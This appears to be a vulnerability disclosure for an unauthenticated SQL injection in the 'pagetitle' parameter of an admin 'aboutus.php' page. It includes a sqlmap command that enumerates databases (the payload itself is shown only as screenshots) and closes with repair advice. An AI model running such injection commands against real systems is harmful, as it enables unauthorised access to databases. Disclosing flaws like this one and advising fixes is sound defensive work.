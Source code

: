 # No login or authorization is required to exploit this vulnerability
Vulnerability details and POC
## Vulnerability lonameion:
'pagetitle' parameter

<img width="793" alt="屏幕截图 2025-03-30 190804" src="https://github.com/user-attachments/assets/4706372c-8292-4e4f-9416-90e97731402d" />


## payload
<img width="673" alt="屏幕截图 2025-03-30 184705" src="https://github.com/user-attachments/assets/b55811a3-17f3-46a2-ae99-47bece4d1b20" />

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
sqlmap -u "http://0.0.0.0/admin/aboutus.php" --cookie "PHPSESSID=623d6ffa346fe1bd080b26843fc94e54" --data="pagetitle=1&pagedes=2&submit=3" --dbs

<img width="891" alt="屏幕截图 2025-03-30 184815" src="https://github.com/user-attachments/assets/ac253f32-c8fc-4748-ae3c-2cd03cb80130" />


# Suggested repair

## Use Prepared Statements and Parameter Binding:
Utilizing prepared statements with parameter binding is an effective way to prevent SQL injection attacks, as it separates SQL code from user input. When prepared statements are used, user-provided values are treated as raw data, ensuring they cannot be executed as part of the SQL code.

## Input Validation and Sanitization:
It is essential to rigorously validate and sanitize user input to ensure it adheres to the expected format. This step minimizes the risk of malicious data being processed by the system.

## Limit Database User Permissions:
Ensure that the database account used for connections has the minimum required permissions. Avoid using accounts with elevated privileges, such as 'root' or 'admin', for routine database operations.

## Regular Security Audits:
Conduct regular code and system security audits to identify and address potential vulnerabilities in a timely manner. Proactive audits help in maintaining robust system security.
